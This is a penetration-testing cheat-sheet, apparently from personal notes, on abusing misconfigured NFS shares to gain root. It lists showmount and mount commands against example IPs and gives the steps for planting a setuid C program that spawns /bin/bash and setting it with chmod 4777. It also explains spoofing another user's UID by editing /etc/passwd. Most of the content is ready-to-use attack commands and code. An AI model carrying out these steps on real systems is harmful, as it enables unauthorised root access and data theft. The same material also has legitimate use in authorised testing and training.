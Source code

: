 # NFS Share/Unmounted Filesystem

## Overview

* if you find that a machine has a NFS share you might be able to use that to escalate privileges, depending on how it is configured

## First, Check if the Target Machine has any NFS Shares

```bash
showmount -e 192.168.1.101
```

## If it Does, then Mount it to the Attacking Filesystem

```bash
mount 192.168.1.101:/foldername ~/tmp/
```

* if that succeeds then you can go to /tmp/share
* might be some interesting stuff there, but even if there isn't you might be able to exploit it
* ff you have write privileges you can create files
* test if you can create files, then check with your low-priv shell what user has created that file
* if it says that it is the root-user that has created the file it is good news
* then you can create a file and set it with suid-permission from your attacking machine, And  execute it with your low privilege shell
* this code can be compiled and added to the share
* before executing it by your low-priv user make sure to set the suid-bit on it

```bash
chmod 4777 exploit
```

* then this

```bash
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
int main()
{
setuid(0);
system("/bin/bash");
return 0;
}
```

## How to Mount a File System

```bash
# 1 way
mount -l
cat /etc/fstab

# for older file systems, "-o nolock"
# lets say we find /home with scanning
sudo mount -o nolock 10.10.10.10:/home ~/local_path/

# if a file is only viewable/etc by a specific user, find the UUID of the user
# by checking file permissions, then create a new user on your machine that
# has that UUID so the file can be viewed
# use the commmand below to change the UUID of the new user you just created
sudo sed -i -e 's/old_uuid/new_uuid/g' /etc/passwd
```

